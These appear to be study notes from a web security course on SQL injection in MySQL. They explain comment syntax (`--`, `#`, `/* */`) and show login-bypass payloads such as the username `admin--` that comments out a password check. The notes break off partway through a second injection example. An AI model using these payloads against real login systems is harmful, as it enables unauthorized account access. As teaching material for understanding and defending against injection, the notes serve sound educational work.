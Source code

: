   - No diagrams or missing critical content noted.

# Notes on Using Comments

## Overview
- **Purpose**: Explains how to use SQL comments (`--`, `#`, `/* */`) to subvert query logic in MySQL for authentication bypass in SQL injection attacks.
- **Focus**: Demonstrates manipulating complex SQL queries by commenting out parts to bypass conditions, ensuring valid syntax.

## Comments
- **Role**: Used to document or ignore parts of SQL queries.
- **Types in MySQL**:
  - Line comments: `--` (requires a space after, e.g., `-- `, URL-encoded as `--+`) and `#`.
  - Inline comment: `/* */` (less common in SQL injections).
- **Example**:
  ```sql
  SELECT username FROM logins; -- Selects usernames from the logins table
  ```
  - Output: Returns usernames (`admin`, `administrator`, `john`, `tom`).
  ```sql
  SELECT * FROM logins WHERE username='admin'; # You can place anything here AND pas
  ```
  - Ignores everything after `#`, returns `admin` record.

## Auth Bypass with Comments
- **Scenario**: Bypass login authentication by commenting out query conditions.
- **Example Query**:
  ```sql
  SELECT * FROM logins WHERE username='admin' AND password='something';
  ```
- **Payload**:
  - Input: `username=admin--`, `password=a`
  - Query:
    ```sql
    SELECT * FROM logins WHERE username='admin' -- AND password='a';
    ```
  - Effect: Comments out `AND password='a'`, checks only `username='admin'`.
  - Output: `Login successful as user: admin`.
- **Key**: Ensures no syntax errors by commenting out the rest of the query.

## Another Example
- **Scenario**: Query with parentheses and hashed password:
  ```sql
  SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password='437b930db84b8079c2dd804a71936b5f';
  ```
  - Parentheses enforce `username='admin' AND id > 1` evaluation first.
  - Hashed password prevents injection via password field.
- **Valid Credentials Test**:
  - Input: `username=admin`, `password=p@ssword`
  - Query: `SELECT * FROM logins WHERE (username='admin' AND id > 1) AND password='0f359740bd1eda994f8b55330c86d845';`
  - Output: `Login failed!` (`admin` has `id=1`, fails `id > 1`).
  - Input: `username=tom`, `password=[valid]`
  - Query: `SELECT * FROM logins WHERE (username='tom' AND id > 1) AND password='f66a3c565937e631515864d1a43c48e7';`
  - Output: `Login successful as user: tom` (`tom` has `id > 1`).
- **Injection Attempt**:
  - Input: `username=admin--`, `password=[any]`